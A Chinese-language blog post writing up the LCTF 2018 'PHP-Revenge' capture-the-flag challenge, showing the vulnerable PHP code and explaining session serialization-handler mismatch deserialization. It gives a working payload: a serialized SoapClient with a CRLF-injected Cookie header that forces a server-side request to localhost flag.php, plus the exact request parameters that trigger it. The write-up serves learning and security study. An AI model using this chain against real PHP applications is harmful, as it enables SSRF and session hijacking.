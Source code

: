 ```yaml
---
layout: post
title: LCTF PHP-Revenge整理
tags: CTF

---
```


上周的lctf，只看了一下这一题，感觉有点意思，整理一波

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
var_dump($_SESSION);
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');//reset（）可以得到该数组的第0个，
call_user_func($b,$a);//implode函数可以得到返回这个数组中元素拼接得到的字符串
?>
```

代码很简单，一共有两个call_user_func，第一个的参数我们完全可控，第二个不可控，访问flag.php发现

```php
if ($_SERVER["REMOTE_ADDR"]==="127.0.0.1") {
		$_SESSION["flag"]=$flag;
	}
```

这里思路应该是执行函数，构造ssrf，让服务器访问flag.php。题目还给了hint,反序列化。所以应该要构造反序列比赛的时候没有找到可以利用的类。

**这里的思路是利用原生的php类soap**

### 什么是SOAP

[soap相关链接](https://www.anquanke.com/post/id/153065#h2-5)

SOAP是webservice的三要素之一。WebService是一种跨平台，跨语言的规范，用于不同平台，不同语言开发的应用之间的交互。简单而言，SOAP（简单对象访问协议）是连接或Web服务或客户端和Web服务之间的接口。 其采用HTTP作为底层通讯协议，XML作为数据传送的格式 SOAP消息。

### PHP中的SoapClient

我们可以通过它来发送http/https请求，SoapClient类可以创建soap数据报文，与wsdl接口进行交互。（在相关链接中有详细的讲述）。同时，这里的http头部还存在crlf漏洞 ，也就是说，我们可以控制服务器来发送http报文，还可以控制报文中的内容。

所以我们只要利用这个类，反序列化便可以进行ssrf。

### 如何进行反序列？

这里利用了php不同序列化解析引擎导致的反序列化漏洞进行反序列化操作，

php在对session进行序列化时默认引擎为php，除了php引擎还存在其他引擎，对序列化的处理不同

```php
php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
php:存储方式是，键名+竖线+经过serialize()函数序列处理的值
php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值 
同样的$_SESSION['name']='spoock'
php:name|s:6:"spoock";
php_serialize:a:1:{s:4:"name";s:6:"spoock";}
php_binary:names:6:"spoock";
```

这里就存在陷阱,如果我们序列化和反序列化采用的引擎不同，就会存在安全问题。

举例：我们采用php_serialize方式存入session为"|xxxxxx"这时候我们使用php进行反序列化，php会将|看成key和value的分隔符，就会将之后的值进行反序列化，触发漏洞。

### 这题的思路

经过前面的分析，可以理一下思路

首先，我们可以控制第一个call_user_func,这里用session_start设置引擎为php_serialize,然后使用name传进去一个构造好的SoapCilent的类存到session里面，这个SoapClient反序列化之后可以让服务器去访问flag.php，这时候，我们只需要触发session，让其序列化，就可以使用默认php引擎去反序列化，（这里利用call_user_func,call_user_func,可以接受一个数组中的对象，对类进行回调，这时候触发构造函数）这时候就可以触发,这里的。我们使用这个session便可以得到flag。

### payload

```php
<?php
$a = new SoapClient(null, array(
	'location' => "http://127.0.0.1/flag.php",
	'user_agent' => "AAA:BBB\r\n"."Cookie:PHPSESSID=22704eeclr7famlh9s21m9to26",
	'uri' => "123"
));
$s = serialize($a);
echo urlencode($s)
```

传入name=|字符串，f=session_start,post的信息：serialize_handler=php_serialize。然后再次访问，f=extract，b=call_user_func,会进行变量覆盖（extract会将数组中的key解析成变量）。

最后只要用这个phpsessid访问可以得到flag。